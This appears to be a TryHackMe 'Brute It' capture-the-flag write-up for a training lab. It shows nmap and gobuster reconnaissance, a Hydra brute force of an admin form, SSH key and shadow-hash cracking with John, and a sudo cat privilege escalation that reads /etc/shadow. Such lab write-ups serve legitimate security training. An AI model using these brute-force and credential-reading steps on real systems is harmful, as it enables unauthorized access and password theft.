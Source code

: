 ```yaml
---
title: THM{Brute It}
author: Anugrah SR
date: 2020-11-07 02:00:00 +0800
categories: [Boot2root,Tryhackme]
tags: [Brute, tryhackme, ssh, nmap, sudo,gobuster, john]
math: true
---
```

# Brute It
## About The Room
*Learn how to brute, hash cracking and escalate privileges in this box!*<br>
* Url: https://tryhackme.com/room/bruteit
* Creator: [ReddyyZ](https://tryhackme.com/p/ReddyyZ)

## Reconnaissance
### Nmap scan
```bash
nmap -sC -sV -T4 10.10.244.141

Starting Nmap 7.91 ( https://nmap.org ) at 2020-11-06 14:38 EST
Nmap scan report for 10.10.244.141
Host is up (0.17s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 4b:0e:bf:14:fa:54:b3:5c:44:15:ed:b2:5d:a0:ac:8f (RSA)
|   256 d0:3a:81:55:13:5e:87:0c:e8:52:1e:cf:44:e0:3a:54 (ECDSA)
|_  256 da:ce:79:e0:45:eb:17:25:ef:62:ac:98:f0:cf:bb:04 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.01 seconds

```
We have identified two ports
* 22 ssh
* 80 http

### Gobuster
```bash
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.244.141  
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.244.141
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2020/11/06 14:35:49 Starting gobuster in directory enumeration mode
===============================================================
/admin                (Status: 301) [Size: 314] [--> http://10.10.244.141/admin/]
```
### HTTP
http://10.10.244.141/admin/ is a admin panel
![admin](https://imgur.com/PlNWCcZl.png)

`Looking for username?
Did you checked the source code!`

![source code](https://imgur.com/HJLJuc9l.png)
```html
 <!-- Hey john, if you do not remember, the username is admin -->
```
Bingo! username is `admin`

### Hydra
Brute-forcing admin panel form using hydra with username admin
```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.244.141 http-post-form "/admin/index.php:user=^USER^&pass=^PASS^:Username or password invalid" -f
```
Now you have the password for the admin panel! let's see what's inside?
![rsa key](https://imgur.com/vxTZKSul.png)
There is also a web flag like THM{xxxxxxxxxxxxxxxxxx}

### RSA private key
Save the rsa file to your local system
#### John
With John, we can crack not only simple password hashes but also SSH Keys
`/usr/share/john/ssh2john.py id_rsa > id_rsa.hashes`

Let's use john and rockyou.txt to try and crack the SSH Key.
```bash
john id_rsa.hash -wordlist=rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 4 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
XXXXXXXXXX       (id_rsa)
Warning: Only 2 candidates left, minimum 4 needed for performance.
1g 0:00:00:07 DONE (2020-11-06 14:56) 0.1338g/s 1919Kp/s 1919Kc/s 1919KC/sa6_123..*7¡Vamos!
Session completed
```
## Gaining Shell
### SSH and User flag
before using ssh to connect don't forget to change permission of rsa key
`chmod 400 id_rsa`

Now we are ready to pwn the box
`ssh john@10.10.244.141 -i "id_rsa"`
User flag
```bash
john@bruteit:~$ cat user.txt
THM{XXXXXXXXXXXXXXXXXXXXXX}
```
## Privilege escalation
### Root flag
```bash
john@bruteit:~$ sudo -l
Matching Defaults entries for john on bruteit:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User john may run the following commands on bruteit:
    (root) NOPASSWD: /bin/cat
```
*If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.*
```bash
    LFILE=file_to_read
    sudo cat "$LFILE"
```
```bash
john@bruteit:~$ LFILE=/root/root.txt
john@bruteit:~$ sudo cat "$LFILE"
THM{XXXXXXXXXXXX}
```
We are asked to find root's password?<br>
Read shadow file and crack the password of Root

```bash
john@bruteit:~$ LFILE=/etc/shadow
john@bruteit:~$ sudo cat "$LFILE"
root:$6$zdk0.jUm$Vya24cGzM1duJkwM5b17Q205xDJ47LOAg/OpZvJ1gKbLF8PJBdKJA4a6M.JYPUTAaWu4infDjI88U9yUXEVgL.:18490:0:99999:7:::
daemon:*:18295:0:99999:7:::
bin:*:18295:0:99999:7:::
sys:*:18295:0:99999:7:::
sync:*:18295:0:99999:7:::
games:*:18295:0:99999:7:::
man:*:18295:0:99999:7:::
lp:*:18295:0:99999:7:::
...
```
#### John to crack admin password
```bash
echo "root:$6$zdk0.jUm$Vya24cGzM1duJkwM5b17Q205xDJ47LOAg/OpZvJ1gKbLF8PJBdKJA4a6M.JYPUTAaWu4infDjI88U9yUXEVgL.:18490:0:99999:7:::" >root.txt
```
```bash
john root.txt                                                       
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 4 OpenMP threads
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Warning: Only 14 candidates buffered for the current salt, minimum 16 needed for performance.
Warning: Only 10 candidates buffered for the current salt, minimum 16 needed for performance.
Warning: Only 15 candidates buffered for the current salt, minimum 16 needed for performance.
Almost done: Processing the remaining buffered candidate passwords, if any.
Warning: Only 8 candidates buffered for the current salt, minimum 16 needed for performance.
Proceeding with wordlist:/usr/share/john/password.lst, rules:Wordlist
xxxxxxx         (root)
1g 0:00:00:02 DONE 2/3 (2020-11-06 15:24) 0.4587g/s 1588p/s 1588c/s 1588C/s 123456..crawford
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```
Thanks for reading this. Good Luck.
